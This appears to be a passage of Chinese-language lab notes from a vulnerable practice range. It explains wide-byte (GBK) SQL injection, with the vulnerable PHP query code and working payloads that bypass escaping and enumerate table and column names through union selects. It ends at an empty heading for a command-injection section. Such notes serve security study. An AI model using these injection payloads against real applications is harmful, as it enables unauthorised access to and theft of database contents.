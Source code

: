 
## 宽字节注入

核心代码

```sql
if(isset($_POST['submit']) && $_POST['name']!=null){

    $name = escape($link,$_POST['name']);
    $query="select id,email from member where username='$name'";//这里的变量是字符型，需要考虑闭合
    //设置mysql客户端来源编码是gbk,这个设置导致出现宽字节注入问题
    $set = "set character_set_client=gbk";
    execute($link,$set);

    //mysqi_query不打印错误描述
    $result=mysqli_query($link, $query);
    if(mysqli_num_rows($result) >= 1){
        while ($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{
        $html.="<p class='notice'>您输入的username不存在，请重新输入！</p>";
    }


}
```

`name=1%df' or 1=1#`

`name=kobe%df' union select 1,2#`

```sql
name=kobe%df' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database())#

由于使用宽字节注入无法使用单引号，可使用嵌套sql语句
name=kobe%df' union select 1,(select group_concat(column_name) from information_schema.columns where table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1)) #
```

![image.png](C:\Users\Lenovo\AppData\Local\Temp\Temp1_皮卡丘.zip\皮卡丘\WEB\靶机笔记\assets\image-20220628230004-t7l6fnh.png)


# rce

## ping


核心代码
